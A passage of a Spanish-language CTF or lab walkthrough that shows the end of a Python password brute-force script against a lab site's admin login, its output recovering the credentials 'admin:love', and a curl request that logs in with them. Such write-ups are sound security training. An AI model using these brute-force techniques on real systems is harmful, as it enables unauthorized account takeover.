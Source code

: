 ```python
        print(f"[!] No se pudo abrir el archivo: {wordlist}")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Uso: python3 script.py <wordlist.txt>")
    else:
        url = "http://secure-api-register.dl/login"
        username = "admin"
        wordlist = sys.argv[1]
        brute_force(url, username, wordlist)
```

Lo ejecutaremos de la siguiente forma:

```shell
python3 brutePass.py <WORDLIST>
```

Info:

```
.................................................................................
[*] Probando: julian
[*] Probando: travis
[*] Probando: myspace1
[*] Probando: babyblue
[*] Probando: sabrina
[*] Probando: michael1
[*] Probando: jeffrey
[*] Probando: stephen
[*] Probando: love
[+] Credenciales válidas encontradas: admin:love
```

Veremos que nos saco la contraseña`love`, si lo probamos en la web entraremos a un panel de administrador, pero que aparentemente no veremos nada en especial.

## Curl

Vamos a probar a utilizar `curl` enviando esa peticion de la misma forma, pero con otro tipo de respuesta para intentar interactuar directamente mediante `curl` de la siguiente forma:

```shell
curl -X POST http://secure-api-register.dl/login \  
    -H "Content-Type: application/json" \
    -d '{"username": "admin", "password": "love"}'
```

Info:

```
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin">/admin</a>. If not, click the link.
```
